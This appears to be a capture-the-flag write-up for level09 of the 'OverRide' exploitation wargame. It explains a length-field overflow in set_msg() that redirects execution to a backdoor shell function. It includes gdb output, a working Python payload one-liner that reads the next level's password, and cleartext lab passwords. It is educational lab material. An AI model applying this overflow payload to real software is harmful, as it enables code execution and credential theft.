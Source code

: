 ```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level09
           ____                  ____  _     __
          / __ \_   _____  _____/ __ \(_)___/ /__
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level09@192.168.56.101's password: fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
level09@OverRide:~$
```

The program contains `secret_backdoor()` function which reads in at most 127 characters from `stdin` and stores them into the buffer pointed to by `command`. Then it executes  a command specified in `command` by calling `/bin/sh -c command`,

At first glance, return address must be overwritten in order to redirect flow of the program into `secret_backdoor()` function.

The function `set_msg()` calls `fgets` which reads 1024 bytes into the buffer of 128 bytes.

Then it copy at most len characters `buffer+180`, from source `str` into destination `buffer`.
```gdb
   0x5555555549a2 <set_msg+112>:	mov    rax,QWORD PTR [rbp-0x408]
=> 0x5555555549a9 <set_msg+119>:	mov    eax,DWORD PTR [rax+0xb4]
   0x5555555549af <set_msg+125>:	movsxd rdx,ea
```
The value of message length, `buffer+180` can be overwirtten using `username`.
With a large message there is possibility to overwrite saved RIP of `handle_msg()`

# Exploit
```sh
level09@OverRide:~$ (python -c "import struct; print('\xff'*50 + '\n' + '\x55'*200 + struct.pack('Q', 0x55555555488c))"; echo 'cat /home/users/$(whoami)/.pass') | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, >: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)
```

